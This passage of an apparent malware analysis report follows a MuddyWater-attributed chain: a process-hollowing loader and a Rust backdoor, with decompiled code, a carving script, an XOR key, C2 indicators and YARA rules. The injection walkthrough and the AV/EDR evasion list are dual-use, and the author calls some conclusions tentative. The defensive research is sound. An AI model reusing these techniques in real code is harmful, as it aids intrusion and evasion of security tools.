if ( *(_DWORD *)v5 != 17744 )
    return 0;
```

- `17744` decimal = `0x4550` → **`PE\0\0`**.

So it verifies that the supplied buffer is actually a PE.



- **ProcessA**: This appears to be a dynamically resolved `CreateProcessA`.

The important flag is:

```
4 = CREATE_SUSPENDED
```

So the new process is created but its primary thread **doesn't execute yet**. 
Microsoft documents `CREATE_SUSPENDED` as creating the thread suspended until `ResumeThread` is called.

- **pGetThreadContext**: buf[1]` is presumably the thread handle.

The malware retrieves the CPU register state so it can later modify where the thread starts executing.

- **pProcessMemory**: This appears to be reading the target process's **PEB/ImageBaseAddress**.

The decompiler's `v12` is suspicious here because it isn't properly initialized in the shown pseudocode. This is likely a **Hex-Rays variable/type reconstruction issue**.

-  **pVirtualAllocEx**: 

- This is very significant.
- For a PE32+ 
- Optional Header: 
	- +0x30 = ImageBase
	- +0x50 = SizeOfImage

So effectively:

```c
VirtualAllocEx(
    target_process,
    malicious_ImageBase,
    malicious_SizeOfImage,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
```

```c
0x3000 = MEM_COMMIT | MEM_RESERVE

0x40 = PAGE_EXECUTE_READWRITE
```


- **pWriteProcessMemory**: Write the PE headers

```c
pWriteProcessMemory(
    buf[0],
    v14,
    _RCX,
    *(unsigned int *)(v5 + 84),
    0);
```

`v5 + 84` = `v5 + 0x54`, which corresponds to **SizeOfHeaders**.

```
Malicious PE
     │
     ├── DOS header
     ├── NT headers
     └── section table
          ↓
     WriteProcessMemory
          ↓
Target process memory
```

- **pWriteProcessMemory**: Write each PE section

This loop is the giveaway:

```c
for (j = 0; j < NumberOfSections; ++j)
{
    ...
    pWriteProcessMemory(
        buf[0],
        section_VirtualAddress + v14,
        section_RawData + _RCX,
        section_RawSize,
        0);
}
```

It's essentially doing:

for each PE section:

```
    destination = allocated_base + VirtualAddress
    source      = malware + PointerToRawData
    size        = SizeOfRawData
    WriteProcessMemory(...)
```

So it is manually reconstructing the PE inside the suspended process.

So the malware is allocating memory in the target process where it intends to place the malicious PE.

- **pWriteProcessMemory**: Update the remote image-base information

```c
pWriteProcessMemory(buf[0], v12 + 16, v5 + 48, 8, 0);
```

Again, this is likely:

```
PEB + 0x10
        ↑
ImageBaseAddress
```

- Calculate the new entry point

```c
v11 = *(unsigned int *)(v5 + 40) + v14;
```

`v5 + 0x28` is the PE Optional Header's: `AddressOfEntryPoint`

```
NewEntryPoint =
    AllocatedImageBase
    +
    PE AddressOfEntryPoint
```

For example:

```
ImageBase = 0x50000000
EntryPoint RVA = 0x1234

New execution address =
0x50000000 + 0x1234
= 0x50001234
```




- **pSetThreadContext** and **pResumeThread**: The malware modifies the suspended thread's context so execution eventually begins at the injected PE's entry point, then resumes it.
#### Carving Stage3 statically,

So to carve the next encrypted stage I made simple `IDAPython Script`,
`0x13F800` is the `::SIZE` variable in `Winmain`,s

```python
import ida_bytes

START = 0x14000F3B0      # Replace with your blob address
SIZE  = 0x13F800          # Replace with the actual Size value

data = ida_bytes.get_bytes(START, SIZE)

if data is None:
    print("Failed to read bytes")
else:
    out = r"C:\\Users\\admin\\Desktop\\payload.enc"

    with open(out, "wb") as f:
        f.write(data)

    print(f"[+] Saved {len(data)} bytes to {out}")
```

- And to decrypt that, I made this simple `decryptor.py`,

```python
key = bytes([
    0x6A, 0x66, 0x64, 0x67, 0x68, 0x6B, 0x6A, 0x66,
    0x64, 0x67, 0x6B, 0x6C, 0x68, 0x6A, 0x64, 0x66,
    0x68, 0x67, 0x73, 0x66, 0x64, 0x30, 0x39, 0x67,
    0x39, 0x30, 0x34, 0x35, 0x6A, 0x6C, 0x6B, 0x64,
])

with open("payload.enc", "rb") as f:
    enc = f.read()

dec = bytes(enc[i] ^ key[i % 32] for i in range(len(enc)))

with open("stage3.exe.defused", "wb") as f:
    f.write(dec)
```

#### Bird View of the Stage2

![[Stage2_Working_Flow.png]]


### Advanced Dynamic Analysis
## Stage3 - Rust Based spyware/trojan Analysis
### Initial Static Analysis

- Again, I have done those initial triage using DiE, PEstudio etc. 

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ file stage3.exe.defused
stage3.exe.defused: PE32+ executable for MS Windows 6.00 (GUI), x86-64, 6 sections

┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ diec -u --verbose stage3.exe.defused
[HEUR/About] Generic Heuristic Analysis by DosX (@DosX_dev)
[HEUR] Scanning has begun!
[HEUR] Scanning to programming language has started!
[HEUR/Any] Lines of .rs files (Rust) detected
[HEUR/Any] Rust language detected!
[HEUR] Scan completed.
PE64
    Operation system: Windows(Vista)[AMD64, 64-bit, GUI]
    Linker: Microsoft Linker(14.36.34808)
    Compiler: Microsoft Visual C/C++(19.36.34321)[C++]
    (Heur)Language: Rust
    Tool: Visual Studio(2022, v17.6)
```





- It is 64bit RUST Compiled Binary (RUSTRIC)
- Entropy is normal of this stage, everything is unpacked



- It is using SentinalOne's Icon so mimic legit software which is very interesting,



It is using multiple DLL libraries for windows socker, and cryptographic operations, 



- Here is mapping of each windows APIs with its potential usage,

![[stage3_apis.png]]

#### FLOSS/Strings Analysis

- Strongest finding: AV/EDR enumeration



It deliberately checks for security software using filesystem/registry artifacts

```
AVAST Software\Avast
AVAST Software\Persistent Data\Avast\avast5.ini

AVG\Antivirus
AVG\Antivirus\Log

Avira\Launcher

Bitdefender\Desktop
Bitdefender Agent

ESET\ESET Security
ESET\ESET Endpoint Security

Malwarebytes\MBAMService

Panda Security\Protection

Cylance\Desktop

SentinelOne Agent
CrowdStrike
Falcon
CarbonBlack
```

(Note: I will list all the AV/EDRs findings in Advance Analysis phase.)

- Persistence module is explicitly present

extremely valuable string:

```
src\modules\persist.rs
```

And around it:

```
Startup
persist.rs
.wdlp
winreg
RegOpenKeyEx
RegSetValueEx
HKEY_CURRENT_USER
HKEY_LOCAL_MACHINE
```

- AES-GCM + CTR + AEAD = encrypted data is likely important

```
aes-gcm-0.10.3
ctr-0.9.2
cipher-0.4.4
aead-0.5.2
aes-0.8.4
```

- Network stack is substantial

The binary contains Rust networking libraries including:

```
hyper
tokio
h2
mio
native-tls
url
```

and HTTP functionality such as:

```
HTTP/1.1
HTTP/2
GET
POST
PUT
DELETE
HEAD
CONNECT
PATCH
OPTIONS
Authorization
User-Agent
Cookie
Content-Type
Location
Proxy-Authorization
WWW-Authenticate
```

`Authorization` header is interesting

```
authorization
proxy-authorization
www-authenticate
```


There's also explicit Windows socket infrastructure:

```
\Device\Afd
CompletionPort
socket
IOCP
```

And the import/API side includes:

```
ws2_32.dll
send
```

- Process creation + named pipes

```rust
CreateProcessW
CreateNamedPipeW
DuplicateHandle
CreateThread
WriteFileEx
ReadFileEx
WaitForMultipleObjects
GetExitCodeProcess
CreateEventW
```

This combination is particularly interesting.

`CreateNamedPipeW` + `CreateProcessW` + `DuplicateHandle` can be used for **IPC with a spawned process**, such as:

```
Malware
   │
   ├── CreateProcess()
   │
   └── Named Pipe
          │
          └── Child process
```

The Rust runtime itself also contains anonymous-pipe strings:

```
\\.\pipe\__rust_anonymous_pipe1__
```

- Command execution capability

The Rust Windows runtime contains:

```c
_cmd.exe /e:ON /v:OFF /d /c "
```

- Anti-analysis / anti-debugging

```
IsDebuggerPresent
QueryPerformanceCounter
GetCurrentThreadId
IsProcessorFeaturePresent
SetUnhandledExceptionFilter
UnhandledExceptionFilter
```

### Initial Dynamic Analysis

-  For this dynamic analysis I mostly use these tools,
1. `FakeNet`
2. `Procmon`
3. `RegShot`
4. `Process Monitor`

- So before running `stage3`, i ran all of this and then executed the `stage3.exe`  and took all the logs so now we will analyze it one by one,
#### Fakenet

- From this Wireshark traffic we found the C2 domain: `stratioai.org` and after DNS reverse lookup, I found the IP of that domain which is, `159.198.68.25`,
- Also, it sending request using some `long hex stream of bytes` in `expires field`, which can be `data exfiltration` technique and `masquerading as Microsoft office user agent` but need a proper validation.









#### Procmon



- Then it is checking for these 3 exes,
	1. `whoami.exe`
	2. `hostname.exe`
	3. `nslookup.exe`
- This is collection of information as mentioned above,  





- This is actually very start technique in which it tells the malware whether **Windows Internet traffic is configured to use a proxy**. 
- the malware may conclude that direct Internet communication could fail and attempt to communicate through the configured proxy.
- Malware sometimes checks proxy configuration as part of its **environment fingerprinting**.
- Some malware wants to understand the victim's network configuration before making **HTTP/HTTPS requests**. 
- This can be particularly relevant to malware using **WinINet/WinHTTP APIs**.
- so it is `anti-sandbox` technique.







#### Regshot

Regshot doesn't give much info!!!
#### Process Monitor (Analyzing Process Dump)

- I have captured both `MiniDump` and `FullDump` of `stage3.exe`,
- I tries to analyze it in `WinDBG` but it doesn't give any interesting things.

### Advanced Static Analysis

- Now before we just to rust reversing stuff, we need to know somethings about rust decompilation and internal structure,

**1. Most of the code is NOT malware.** A Rust binary statically links `std` + every crate (here: reqwest, tokio, hyper, url, winreg, aes‑gcm…). ~90% of what you see is library code. **The trick is to ignore libraries and follow the panic strings.** Every `sub_1400CBBC0(msg, len, file, filelen, ...)` is Rust's `panic_fmt` — its arguments tell you the exact source file. So:

- `"...index.crates.io...reqwest-0.12.23\src\blocking\client.rs"` → library, skip.
- `"src\main.rs"`, `"src\modules\persist.rs"` - **author's code, analyze.**

**2. Strings are (pointer, length) pairs**, never null‑terminated. You'll always see `(__int64)"text", 19` together. The length is your confirmation of where a string ends (e.g. `"StartupCouldn't get Startup Key", 7` = the string `"Startup"`).

**3. `Result`/`Option` show up as weird discriminant checks.**
- `if ( __OFSUB__(-x, 1) )` ≈ "is this an `Err`?"
- == 0x8000000000000001 / 0x8000000000000000 ≈ enum tags (Ok/Err/None).
- `.unwrap()` in source becomes: check discriminant → if bad, call panic handler_. You'll literally see `"called Result::unwrap() on anErr` value next to `src\main.rs`.

**4. Memory helpers you'll see constantly:**
- `sub_14008E9B4(size, ...)` = allocate (grow a `Vec`/`String`)
- `sub_1400ABBF0(0, n)` = allocate exactly n bytes
- `sub_140034687(ptr, cap)` = free ("drop")
- `sub_14004701D(out, args)` = `format!()`
- `sub_14008E334(buf, ptr, len)` = `push_str`
- `sub_1400AA880(out, a, la, b, lb)` = concatenate two strings
- `sub_1400ABA20(code)` = `std::process::exit(code)`

**5. `loop {}` in Rust decompiles as `while ( 2 )` or `while ( 1 )` with no exit condition.**

NOTE!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

```
And Before I start i tell you that, I am not a good rust reverse engineer, I am also learning this so if i made mistake then you can correct me as well, and I am gonna heavily use AI for understanding.....
```

Now we are starting the analysis,

It has mainly this many modules,
- `src\modules\persist.rs`
- `src\modules\interface.rs`
- `src\modules\information.rs`
- `src\modules\detect_av.rs`
#### Detect Anti-Virus and EDR Solutions (Anti-Analysis)

- As per analysis, This is many AVs/EDRs are being monitor by this sample,
	- Microsoft Windows Defender
	- Avast
	- AVG
	- Avira
	- Bitdefender
	- Kaspersky
	- ESET
	- McAfee
	- Norton / Symantec
	- Trend Micro
	- Sophos
	- Malwarebytes
	- Panda Security
	- F-Secure
	- Comodo
	- Webroot
	- Cylance
	- SentinelOne
	- VMware Carbon Black
	- CrowdStrike Falcon
	- G DATA
	- Qihoo 360 / 360 Total Security
	- K7 Computing
	- Quick Heal
	- Doctor Web / Dr.Web
	- Check Point / ZoneAlarm
	- BullGuard
	- Emsisoft








#### Information Collection



#### Build the URL by decrypting configurations



#### Decryption of Authentication Credentials


#### Crafting the request using all these


#### Run Task


#### Persistence Mechanism 








- This is expected pseudo‑Rust code that it is using,  

```rust
fn main() {
    let dir = env::var("ProgramData").unwrap_or("C:\\ProgramData");
    loop {
        let avs   = detect_av::scan(dir);                 // 28 vendors
        let info  = information::collect();               // 2 fields
        let url   = build_url(decrypt_cfg(), percent_encode(avs, info));
        let cred  = aes_gcm_decrypt(CRED_BLOB);           // user:pass
        let resp  = reqwest(url).basic_auth(cred).headers(decrypt_hdrs()).send();
        match resp.status() {
            201 => run_task(resp.body()),
            202 => { persist::registry_run_key(); exit(0); }
            418 => exit(418),
            _   => {},
        }
        sleep_20s();
    }
}
```


Now this feels very absurd and we you feel how can be conclude from this that it is those functionalities, so yes!! we can't that's why change the method and go for advance dynamic analysis.
### Advanced Dynamic Analysis

# MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Where in your chain | Evidence |
|---|---|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | Stage0 | Hebrew-language email delivering `Webinar.doc` / `Webinar.zip` |
| Execution | T1204.002 | User Execution: Malicious File | Stage0 → Stage1 | `Document_Open()` fires only after the victim enables macro content |
| Execution | T1059.005 | Command and Scripting Interpreter: Visual Basic | Stage1 | `ThisDocument`/`UserForm1` VBA macros (`WriteHexToFile`, `love_me_`, `SmartToggle`) |
| Execution | T1047 | Windows Management Instrumentation | Stage1 → Stage2 | `love_me_()` uses `winmgmts:\\.\root\cimv2` → `Win32_Process.Create` to run `PhotoAcq.log` |
| Defense Evasion | T1027 | Obfuscated Files or Information | Stage1 | Stage2 PE stored as a hex blob inside a hidden `UserForm1.TextBox1` field |
| Defense Evasion | T1027.007 | Obfuscated Files or Information: Dynamic API Resolution | Stage2 | API names decrypted at runtime with a per-string rolling-ADD cipher, then resolved via `LoadLibraryA`/`GetProcAddress` |
| Defense Evasion / Privilege Escalation | T1055.012 | Process Injection: Process Hollowing | Stage2 → Stage3 | `CreateProcessA` with `CREATE_SUSPENDED`, followed by `VirtualAllocEx`, `WriteProcessMemory`, `SetThreadContext`, `ResumeThread` |
| Defense Evasion | T1140 | Deobfuscate/Decode Files or Information | Stage2 → Stage3 | 32-byte XOR key used to decrypt the embedded Stage3 payload before injection |
| Defense Evasion | T1622 | Debugger Evasion | Stage2 / Stage3 | `IsDebuggerPresent`, `QueryPerformanceCounter` timing checks, junk `Cos()` anti-analysis branches |
| Defense Evasion | T1497 | Virtualization/Sandbox Evasion | Stage3 | Environment and AV/EDR fingerprinting performed before any C2 contact |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name or Location | Stage2 / Stage3 | Stage3 binary carries a SentinelOne icon; observed HTTP traffic uses a Microsoft Office–style User-Agent |
| Discovery | T1518.001 | Security Software Discovery | Stage3 (`detect_av.rs`) | Registry/filesystem checks against 28+ named AV/EDR products |
| Discovery | T1082 | System Information Discovery | Stage3 (`information.rs`) | Execution of `whoami.exe`, `hostname.exe` |
| Discovery | T1016 | System Network Configuration Discovery | Stage3 | `nslookup.exe` execution and Windows proxy-configuration checks |
| Persistence | T1547.001 | Boot or Logon Autostart Execution: Registry Run Keys | Stage3 (`persist.rs`) | `RegSetValueEx` under `HKCU`/`HKLM` Run keys, `.wdlp` artifact reference |
| Command and Control | T1071.001 | Application Layer Protocol: Web Protocols | Stage3 | HTTP-based beaconing to `stratioai[.]org` using `hyper`/`tokio`/`reqwest` |
| Command and Control | T1573 | Encrypted Channel | Stage3 | AES-GCM/CTR-encrypted configuration, credentials, and headers |
| Command and Control | T1132 | Data Encoding | Stage3 | Long hex-encoded value observed in the HTTP `Expires` header |
| Command and Control | T1105 | Ingress Tool Transfer | Stage2 → Stage3 | Loader carries and decrypts the next-stage payload for execution |
| Execution | T1059.003 | Command and Scripting Interpreter: Windows Command Shell | Stage3 | `cmd.exe /e:ON /v:OFF /d /c` string suggests shell-based task execution |
| Exfiltration | T1041 | Exfiltration Over C2 Channel | Stage3 | Host/AV-enumeration data transmitted back through the same HTTP channel used for tasking |

*(Sub-technique numbering follows the MITRE ATT&CK Enterprise matrix; verify against the current ATT&CK version before publishing, as sub-technique sets are periodically revised.)*

# Attribution Assessment

**Assessed actor:** MuddyWater (Iran, MOIS-linked). **Confidence: Moderate-High** (report metadata lists "High"; the reasoning below explains both what supports that and what keeps it from being definitive).

**Supporting factors:**
- **Targeting signal:** Hebrew-language lure with an Israel-relevant corporate pretext lines up with MuddyWater's established focus on Israeli government and critical-infrastructure targets.
- **Tooling lineage:** Stage3 is a Rust-compiled implant with an AV-enumeration module, a dedicated persistence module, and Rust HTTP-client crates — structurally consistent with publicly reported RustyWater/RUSTRIC implants already attributed to MuddyWater.
- **Tradecraft fingerprint:** The specific combination of macro-delivered dropper → WMI execution → custom dynamic API resolution → process hollowing → security-software-aware Rust backdoor matches MuddyWater's documented pattern of investing in defense evasion over exploit sophistication.
- **Campaign linkage:** The sample is explicitly tied (per the analyst's own note) to the UNG0801 / Operation IconCat cluster, which has separately been reported using AV-icon spoofing against Israeli targets — matching this sample's SentinelOne-icon masquerade.

**Factors limiting full confidence:**
- Sender infrastructure (`l-m[.]co.il`) has not been independently confirmed as attacker-controlled versus a compromised/spoofed legitimate mailbox.
- No direct code-family match (e.g., shared unique function, shared certificate, shared build artifact) was demonstrated between this sample and a previously confirmed MuddyWater sample — attribution here rests on TTP and targeting overlap, not a hard technical link.
- Iranian-aligned clusters are known to share tooling and infrastructure providers, so TTP overlap alone cannot fully rule out a closely related but distinct group operating with similar tradecraft.

**Bottom line:** The evidence is strong enough to attribute this activity to MuddyWater with moderate-high confidence, consistent with the analyst's original "High" rating, but full certainty would require infrastructure ownership confirmation or a direct code-level link to a previously attributed sample.
# IOCs

## URLs

- Confirmed / high-confidence campaign IOCs

```yml
stratioai[.]org
159[.]198[.]68[.]25
```

- Sender infrastructure: (Status: suspicious / requires further enrichment; not confirmed C2.)

```yml
l-m[.]co[.]il
91[.]196[.]221[.]145
```
## Payloads

| SHA-256                                                            | Type                                                               | Name                                                 |
| ------------------------------------------------------------------ | ------------------------------------------------------------------ | ---------------------------------------------------- |
| `6df21646d13c5b68c14c70516dfc74ef2aef4a4246970d7f4fbd072053ba40e6` | **Outlook email**                                                  | 1.eml                                                |
| `6f079c1e2655ed391fb8f0b6bfafa126acf905732b5554f38a9d32d0b9ca407d` | **Zip archive data**                                               | Webinar.zip                                          |
| `77ceeb88a1fe4fb03af1acc589e02aeb156e3b22b110124ce1b25c940b0d9bbe` | **Composite Document File V2 Document**                            | Webinar.doc                                          |
| `54ebdea80d30660f1d7be0b71bc3eb04189ef2036cdbba24d60f474547d3516a` | **PE32+ executable for MS Windows 6.00 (GUI), x86-64, 7 sections** | **CPP Loader**<br>(stage2.exe.defused, PhotoAcq.log) |
| `a2001892410e9f34ff0d02c8bc9e7c53b0bd10da58461e1e9eab26bdbf410c79` | **PE32+ executable for MS Windows 6.00 (GUI), x86-64, 6 sections** | **RUSTRIC**<br>(stage3.exe.defused)                  |

# Detection Rules & Signatures

## YARA Rules

```yara
rule MuddyWater_Stage2_CustomLoader_ProcessHollowing
{
    meta:
        description = "Detects Stage2 loader via the embedded Stage3-payload XOR key"
        report_id = "TR-2026-002"

    strings:
        $stage3_key = { 6a 66 64 67 68 6b 6a 66 64 67 6b 6c 68 6a 64 66 68 67 73 66 64 30 39 67 39 30 34 35 6a 6c 6b 64 }

    condition:
        uint16(0) == 0x5A4D and
        filesize < 2MB and
        $stage3_key
}

rule MuddyWater_Stage3_RUSTRIC_Backdoor
{
    meta:
        description = "Detects the Stage3 Rust-based backdoor (RUSTRIC family) used in the MuddyWater/UNG0801 IconCat chain"
        report_id = "TR-2026-002"
        author = "Jeel Nariya"
        confidence = "High"

    strings:
        $rs1 = "src\\modules\\persist.rs" ascii
        $rs2 = "src\\modules\\detect_av.rs" ascii
        $rs3 = "src\\modules\\information.rs" ascii
        $rs4 = "src\\modules\\interface.rs" ascii

        $crate1 = "aes-gcm-0.10.3" ascii
        $crate2 = "ctr-0.9.2" ascii

        $persist1 = ".wdlp" ascii
        $persist2 = "RegSetValueEx" ascii

        $c2 = "stratioai" ascii nocase

        $cmd = "cmd.exe /e:ON /v:OFF /d /c" ascii

    condition:
        uint16(0) == 0x5A4D and
        filesize < 15MB and
        (2 of ($rs*)) and
        (any of ($crate*)) and
        ($c2 or (any of ($persist*) and $cmd))
}
```

**Notes for the analyst:**
- Both rules should be validated against the actual `stage2.exe.defused` / `stage3.exe.defused` samples and, ideally, a clean-file corpus before deployment, to check for false positives (particularly `$cabinet` and `RegSetValueEx`, which are common outside this malware family).
- The `$c2` string match on `stratioai` will need to be retired or updated if the actor rotates domains, which MuddyWater does regularly — treat it as a short-lived, high-confidence indicator rather than a durable detection.
- Consider adding a companion Sigma rule for the process-hollowing behavior (`CREATE_SUSPENDED → VirtualAllocEx → WriteProcessMemory → SetThreadContext → ResumeThread` sequence) for EDR/Sysmon-based detection, since binary-string rules alone won't catch a recompiled or repacked variant.
# Intelligence Gaps

- **C2 protocol/task taxonomy:** The full set of commands the C2 can issue (beyond the inferred `201`/`202`/`418` status-code branches) has not been enumerated, advanced dynamic analysis of Stage3 against a live or emulated C2 is still needed.
- **Infrastructure ownership:** `l-m[.]co.il` and `stratioai[.]org` have not been confirmed as attacker-registered infrastructure versus compromised or leased assets; WHOIS/passive-DNS history and hosting-provider enrichment would help.
- **Victim scope:** No information is available on how many recipients received this email, how many opened the attachment, or whether any real compromise occurred — this is a single-sample analysis, not incident data.
- **MITRE Software ID mapping:** The referenced `S9037` MITRE ATT&CK software entry has not been cross-checked field-by-field against this sample to confirm it is the same tracked family versus a related but distinct one.
- **Exfiltration confirmation:** The hex blob observed in the HTTP `Expires` header is assessed as likely data exfiltration/staging, but its structure has not been fully decoded or confirmed against known reconnaissance output.
- **Sample provenance:** It is not yet confirmed whether this sample was obtained from a real-world delivery/incident or from a public malware repository/sandbox submission, which affects how the targeting assessment should be weighted.
- **YARA validation:** The rules above are based on static strings observed in this one sample pair and have not yet been tested against a broader corpus or a recompiled/repacked variant of the same family.
# Assessment / Outlook

MuddyWater's continued use of Hebrew-language, HR-themed lures against a Rust-based, security-software-aware backdoor suggests the group is actively refining Stage3 tradecraft (AV/EDR enumeration, encrypted C2, icon masquerading) faster than it's changing its initial-access playbook, the phishing and macro-dropper stages here are fairly conventional MuddyWater tradecraft, while the payload chain shows clear investment in defense evasion. Organizations in Israeli government, defense, and critical-infrastructure sectors should expect continued targeting from this cluster, likely with rotated C2 infrastructure (the `stratioai[.]org` domain should be treated as short-lived) but a similar overall chain: macro document → WMI-launched loader → process-hollowed Rust backdoor. Defenders should prioritize behavioral detection of process hollowing and WMI-based process creation from Office applications over static IOC matching alone, since domains and hashes in this family are expected to change quickly while the underlying tradecraft has remained stable across reported campaigns.
# References

- https://attack.mitre.org/software/S9037/
- https://www.seqrite.com/blog/ung0801-tracking-threat-clusters-obsessed-with-av-icon-spoofing-targeting-israel/
- https://www.cloudsek.com/blog/reborn-in-rust-muddywater-evolves-tooling-with-rustywater-implant
- https://ics-cert.kaspersky.com/publications/reports/2026/05/21/apt-and-financial-attacks-on-industrial-organizations-in-q1-2026/
- https://blog.synapticsystems.de/rustystealer-your-compiler-is-snitching-on-you/
- https://blog.synapticsystems.de/category/threat-actors/muddywater/
- https://radar.certfa.com/en/threats/view/665b2985/
- https://advisory.eventussecurity.com/advisory/av-icon-spoofing-drives-operation-iconcat-campaign/
- https://radar.offseq.com/threat/ung0801-tracking-threat-clusters-obsessed-with-av--2217646d
- https://www.hendryadrian.com/ung0801-tracking-threat-clusters-obsessed-with-av-icon-spoofing-targeting-israel/
- https://infosecwriteups.com/cti-research-muddywater-seedworm-mango-sandstorm-ebf6af5ba061
- https://www.linkedin.com/posts/tausifgazali_cybersecurity-infosec-muddywater-activity-7415602688387813376-Pg7Y/